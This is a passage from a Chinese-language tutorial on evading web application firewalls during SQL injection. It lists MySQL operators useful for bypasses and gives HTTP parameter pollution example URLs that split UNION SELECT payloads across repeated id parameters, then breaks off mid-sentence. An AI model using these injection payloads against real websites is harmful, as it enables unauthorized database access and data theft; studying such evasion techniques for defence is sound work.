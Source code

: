本节最后在给出一些和这些字符多少有点关系的操作符供参考：

```
>>, <<, >=, <=, <>,<=>,XOR, DIV, SOUNDS LIKE, RLIKE, REGEXP, IS, NOT, BETWEEN
```

使用这些"特殊符号"实现绕过是一件很细微的事情，一方面各家数据库对有效符号的处理是不一样的，另一方面你得充分了解这些符号的特性和使用方法才能作为绕过手段

### g) HTTP参数控制

这里HTTP参数控制除了对查询语句的参数进行篡改，还包括HTTP方法、HTTP头的控制

1.HPP(HTTP Parameter Polution)

举例：`/?id=1;select+1,2,3+from+users+where+id=1—`

　　　`/?id=1;select+1&id=2,3+from+users+where+id=1—`

　　　`/?id=1/**/union/*&id=*/select/*&id=*/pwd/*&id=*/from/*&id=*/users`

HPP又称做重复参数污染，最简单的就是?uid=1&uid=2&uid=3，对于这种情况，不同的Web服务器处理方式如下：